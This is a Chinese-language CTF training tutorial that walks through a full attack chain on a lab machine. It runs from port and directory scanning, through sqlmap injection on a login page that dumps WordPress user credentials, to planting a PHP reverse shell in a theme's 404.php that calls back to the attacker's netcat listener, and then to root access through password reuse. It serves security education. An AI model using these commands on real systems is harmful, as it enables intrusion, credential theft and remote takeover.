# CTF夺旗赛：P14：15. SQL注入攻击实战教程 🚩

在本节课中，我们将学习CTF训练中的一种常见攻击方式——SQL注入。我们将通过构造特殊的输入参数，利用Web应用程序的漏洞，最终获取目标主机的最高权限（root权限）并取得Flag。

## 什么是SQL注入？🔍

上一节我们介绍了课程目标，本节中我们来详细看看SQL注入的核心概念。

SQL注入攻击是指攻击者构造特殊的输入作为参数，传入Web应用程序。通过执行这些参数所对应的SQL语句，攻击者可以执行其想要的操作。其主要原因是程序没有细致地过滤或过滤不严格用户输入的数据，致使非法数据侵入系统。

**核心公式**：
`用户输入` + `不安全的数据库查询` = **SQL注入漏洞**


理论上，任何一个用户可以输入的位置都有可能成为注入点。例如，在URL中传递的参数（GET请求）以及在HTTP报文中POST方式传递的参数。

## 实验环境搭建 🖥️



在开始实战之前，我们需要明确实验环境。以下是本次实验的配置：

*   **攻击机**：Kali Linux
    *   IP地址：`192.168.1.11`
*   **靶机**：Ubuntu系统
    *   IP地址：`192.168.1.104`



我们的目标是：挖掘靶机上的漏洞，获得主机的最高权限（root权限），最终取得对应的Flag值。

## 第一步：信息收集与探测 🕵️

拿到靶机IP地址后，第一步是进行信息探测，了解目标开放了哪些服务。

我们首先使用 `Nmap` 工具扫描靶机所有开放的端口。`-T4` 参数表示使用最快的速度扫描，`-p-` 表示扫描所有端口。

**操作命令**：
```bash
nmap -T4 -p- 192.168.1.104
```

扫描过程可能需要一些时间。在等待的同时，可以使用 `ping` 命令测试网络连通性。

除了端口扫描，我们还可以使用 `Nmap` 的 `-A` 参数进行更全面的信息收集，包括操作系统、服务版本等。

**操作命令**：
```bash
nmap -T4 -A -v 192.168.1.104
```

扫描结果显示，靶机开放了80端口（HTTP服务）和8080端口（HTTP服务）。针对HTTP服务，我们可以使用目录扫描工具来发现隐藏的敏感文件或目录。

以下是常用的信息收集工具及其简要介绍：

*   **Nikto**：用于扫描Web服务器，寻找敏感文件、配置错误和已知漏洞。
*   **Dirb**：通过字典暴力破解Web服务器上的目录和文件。

我们对80端口进行扫描：

**操作命令 (Nikto)**：
```bash
nikto -h http://192.168.1.104
```

**操作命令 (Dirb)**：
```bash
dirb http://192.168.1.104
```

在扫描过程中，我们发现了一些有价值的路径，例如 `/phpmyadmin/`（数据库管理入口）和 `/login.php`（登录页面）。同时，对8080端口的扫描发现了一个 `/wordpress/` 目录，表明该站点可能使用WordPress搭建。

## 第二步：漏洞分析与利用 🛠️

在收集了足够的信息后，我们开始分析并尝试利用漏洞。



我们使用漏洞扫描器 `OWASP ZAP` 对80端口和8080端口进行自动化漏洞扫描。扫描结果显示80端口没有高危漏洞，但发现了 `/login.php` 这个登录页面。



对于一个登录页面，常见的测试点包括弱口令和SQL注入。我们尝试使用常见弱口令（如admin/123456）登录失败后，转而测试SQL注入漏洞。



我们使用 `sqlmap` 工具对登录页面进行自动化SQL注入检测。首先，需要捕获登录时提交的HTTP请求数据包。这里使用 `Burp Suite` 作为代理进行抓包。





1.  配置浏览器代理指向Burp Suite（如 `127.0.0.1:8080`）。
2.  在Burp Suite中开启代理拦截。
3.  在浏览器中访问登录页，输入任意用户名密码（如test/test）并提交。
4.  在Burp Suite中截获该POST请求，将其内容保存到一个文件（如 `request.txt`）。



接下来，使用 `sqlmap` 加载这个请求文件进行注入测试。

**操作命令**：
```bash
sqlmap -r request.txt --level=3 --risk=3 --dbs --dbms=mysql --batch
```
*   `-r request.txt`：从文件加载HTTP请求。
*   `--level=3 --risk=3`：使用较高的检测等级和风险等级。
*   `--dbs`：枚举数据库。
*   `--dbms=mysql`：指定数据库类型为MySQL。
*   `--batch`：使用默认选项，无需人工交互。

`sqlmap` 成功检测到注入点并列出了数据库。我们针对疑似WordPress的数据库进行深入探测：

1.  **列出指定数据库的所有表**：
    ```bash
    sqlmap -r request.txt -D wordpress --tables --batch
    ```
2.  **列出指定表的所有字段**：
    ```bash
    sqlmap -r request.txt -D wordpress -T wp_users --columns --batch
    ```
3.  **导出指定字段的数据（用户名和密码）**：
    ```bash
    sqlmap -r request.txt -D wordpress -T wp_users -C user_login,user_pass --dump --batch
    ```

我们成功获取到了WordPress后台的用户名（`admin`）和密码哈希值。通过破解（或利用WordPress的特性），我们得到了明文密码。



## 第三步：获取WebShell与权限提升 ⚡



利用获取到的凭证，我们成功登录WordPress后台（`http://192.168.1.104:8080/wordpress/wp-admin`）。

在WordPress中，一种常见的获取WebShell的方法是通过编辑主题模板文件。我们选择当前主题（如Twenty Thirteen）的 `404.php` 模板文件，将其内容替换为PHP反向Shell代码。


反向Shell代码可以从Kali Linux的预置路径获取并修改：

**操作命令**：
```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/
cd ~/Desktop
# 使用文本编辑器（如gedit）修改文件中的IP和端口
gedit php-reverse-shell.php
```
在文件中，将 `$ip` 变量改为攻击机IP（`192.168.1.11`），将 `$port` 变量改为监听端口（如 `4444`）。



修改后，在WordPress后台的“主题编辑器”中，找到 `404.php`，用我们准备好的反向Shell代码替换原内容并保存。

在攻击机上，使用 `netcat` 启动监听，等待靶机连接。



**操作命令**：
```bash
nc -nlvp 4444
```



然后，访问触发404页面的特定URL（例如 `http://192.168.1.104:8080/wordpress/wp-content/themes/twentythirteen/404.php`）。一旦访问，反向Shell就会连接回我们的攻击机，在 `netcat` 窗口中获得一个基本的Shell。



为了获得一个功能更完整的交互式终端，我们在获得的Shell中执行以下命令：



**操作命令**：
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```





现在，我们拥有了靶机上的一个命令行权限。接下来需要提升到root权限。我们尝试切换到root用户：

**操作命令**：
```bash
su -
```
系统提示输入密码。我们尝试使用之前获得的WordPress管理员密码，成功切换为root用户。使用 `id` 命令验证，确认UID为0，即root权限。

**操作命令**：
```bash
id
# 输出示例：uid=0(root) gid=0(root) groups=0(root)
```

至此，我们已完全控制靶机。可以在根目录等位置寻找Flag文件。

**操作命令**：
```bash
find / -name *flag* 2>/dev/null
cat /root/flag.txt
```

## 总结与要点 📝

本节课我们一起学习了完整的SQL注入攻击链：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标开放的服务、端口和敏感路径。
2.  **漏洞发现**：分析收集的信息，对可疑的输入点（如登录框）进行SQL注入测试，并利用sqlmap进行自动化验证和利用。
3.  **横向移动**：通过注入获取的数据库凭证（如WordPress后台密码）登录管理后台。
4.  **获取立足点**：利用Web应用功能（如编辑主题文件）上传WebShell。
5.  **权限提升**：在获得的Shell基础上，利用已知密码或系统漏洞将权限提升至root。

**核心要点**：
*   用户输入点都是潜在的注入点，不可轻信。
*   自动化扫描工具的结果并非绝对，手工测试和验证至关重要。
*   一次成功的渗透测试往往需要结合多种漏洞和技术，形成完整的攻击链。



希望本教程能帮助你理解SQL注入的原理和实战利用过程。请务必在合法授权的环境中进行练习。